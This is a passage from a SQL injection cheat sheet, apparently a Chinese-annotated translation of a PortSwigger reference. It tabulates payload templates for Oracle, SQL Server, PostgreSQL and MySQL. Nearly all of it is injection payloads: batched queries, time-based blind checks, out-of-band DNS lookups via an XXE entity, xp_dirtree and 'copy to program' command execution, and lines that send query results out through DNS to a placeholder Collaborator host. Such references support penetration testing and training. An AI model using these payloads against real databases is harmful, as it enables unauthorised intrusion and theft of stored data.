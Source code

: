 | Oracle     | `Does not support batched queries.` |
| :--------- | ----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |

使用MySQL，批处理查询通常不能用于SQL注入。但是，如果目标应用程序使用某些 PHP 或 Python API 与 MySQL 数据库进行通信，则偶尔会发生这种情况。

### 时延

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| :--------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT sleep(10)`                    |

### 条件判断时延

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END` |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`               |

### DNS解析

| Oracle     | The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence: `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual`  The following technique works on fully patched Oracle installations, but requires elevated privileges: `SELECT UTL_INADDR.get_host_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net')` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `exec master..xp_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a'` |
| PostgreSQL | `copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net'` |
| MySQL      | The following techniques work on Windows only: `LOAD_FILE('\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a')` `SELECT ... INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

### 数据泄露的DNS查找

| Oracle     | `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual` |
| :--------- | ------------------------------------------------------------ |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"')` |
| PostgreSQL | `create OR replace function f() returns void as $$declare c text;declare p text;beginSELECT into p (SELECT YOUR-QUERY-HERE);c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net''';execute c;END;$$ language plpgsql security definer;SELECT f();` |
| MySQL      | The following technique works on Windows only: `SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a'` |

#

